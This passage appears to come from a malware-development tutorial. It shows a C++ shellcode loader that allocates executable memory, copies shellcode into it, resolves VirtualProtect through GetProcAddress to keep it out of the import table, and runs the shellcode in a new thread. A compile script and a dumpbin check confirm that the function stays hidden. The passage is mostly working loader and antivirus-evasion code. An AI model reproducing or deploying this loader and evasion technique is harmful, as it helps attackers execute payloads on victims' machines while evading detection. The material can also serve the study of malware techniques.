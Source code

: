 ```cpp
    HANDLE th;
    DWORD oldprotect = 0;

    // Allocate memory for shellcode in current process address space
    void* exec_mem = VirtualAlloc(0, sizeof(shellcode), MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);

    // Copy shellcode to allocated memory
    RtlMoveMemory(exec_mem, shellcode, shellcode_len);

    // point to the address of VirtualProtect
    HideProtect = GetProcAddress(GetModuleHandle("kernel32.dll"), "VirtualProtect");

    // call VirtualProtect with HideProtect
    rv = HideProtect(exec_mem, shellcode_len, PAGE_EXECUTE_READ, &oldprotect);

    th = CreateThread(0, 0, (LPTHREAD_START_ROUTINE)exec_mem, 0, 0, 0);
    WaitForSingleObject(th, -1);
    return 0;
}
```
{% endcode %}

compile:

{% code title="compile.bat" %}
```batch
@ECHO OFF
cl.exe /nologo /Ox /MT /W0 /GS- /DNDEBUG /Tcproject1.cpp /link /OUT:project1.exe /SUBSYSTEM:CONSOLE /MACHINE:x64
```
{% endcode %}

now lets check the IAT to see if `VirtualProtect` is there:

```batch
dumpbin /imports project1.exe | findstr VirtualProtect
```

<figure><img src="../../.gitbook/assets/image (348).png" alt=""><figcaption></figcaption></figure>
